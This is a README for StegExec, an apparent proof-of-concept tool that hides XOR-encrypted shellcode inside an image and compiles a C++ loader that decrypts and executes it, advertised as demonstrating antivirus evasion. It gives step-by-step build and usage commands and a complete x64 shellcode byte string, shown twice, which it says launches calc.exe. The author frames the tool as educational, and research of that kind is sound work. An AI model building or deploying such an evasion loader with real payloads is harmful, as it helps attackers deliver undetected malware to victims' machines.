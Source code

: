 # StegExec 🚀
                                                .       .
                                                / `.   .' \
                                        .---.  <    > <    >  .---.
                                        |    \  \ - ~ ~ - /  /    |
                                        ~-..-~             ~-..-~
                                    \~~~\.'                    `./~~~/
                        .-~~^-.    \__/                        \__/
                        .'  O    \     /               /       \  \
                        (_____,    `._.'               |         }  \/~~~/
                        `----.          /       }     |        /    \__/
                            `-.      |       /      |       /      `. ,~~|
                                ~-.__|      /_ - ~ ^|      /- _      `..-'   f: f:
                                        |     /        |     /     ~-.     `-. _||_||_
                                        |_____|        |_____|         ~ - . _ _ _ _ _>

## Overview
StegExec (Steganography Executor) is a fully automated Proof of Concept for embedding XOR-encrypted shellcode within an image file. The project encrypts the shellcode, injects it into the image, and compiles a custom C++ executable that, when launched, locates, decrypts, and executes the shellcode. This project demonstrates file steganography, memory manipulation, and antivirus evasion techniques for educational purposes. 

NOTE: I made this to learn more about steganography and antivirus evasion for my own career development. This is not intended to be used for malicious purposes.

## Features
- Automated encryption, injection, and executable compilation
- Custom C++ loader for shellcode execution on launch
- Batch-driven workflow for seamless deployment
- Demonstrates file-based stealth execution

## Getting Started

### Prerequisites
- Windows
- Python 3.x
- MinGW (includes g++ and windres)
- PowerShell

### Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/craig-rylance/StegExec.git
   cd stegexec
2. Ensure all required dependencies are installed:
- Install MinGW from [MinGW-w64](https://www.mingw-w64.org/) and ensure `g++` and `windres` are included in your installation.
3. Set up your environment:
- Place your target image file in the project directory.
- Prepare your shellcode input.

### Usage
1. Open PowerShell.
2. Run the batch script with the target image filename and shellcode as arguments:
    ```bash 
    .\compile-executable.cmd [target_image_file] "[shellcode]"
3. After successful execution, you will have a compiled `executable.exe` file that can be launched to execute the injected shellcode.


#### Example shellcode format (Launches calc.exe): 
Ensure that shellcode is formatted exactly like this, with spaces separating each byte.

    0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6

#### Example command:

    .\compile-executable.cmd example-image.jpg "0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6"

Running this command will produce an executable that will launch calc.exe using the encrypted shellcode inside of example-image.jpg

## ⚠️ Important Note
This project is for **educational and research purposes only**. Ensure compliance with all legal and ethical guidelines when testing or demonstrating the techniques presented in this project.

## Contributing
If you would like to contribute to this project, please fork the repository and submit a pull request with your enhancements or bug fixes.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Credit to leetcipher (https://github.com/leetCipher) for the base Python and C++ code.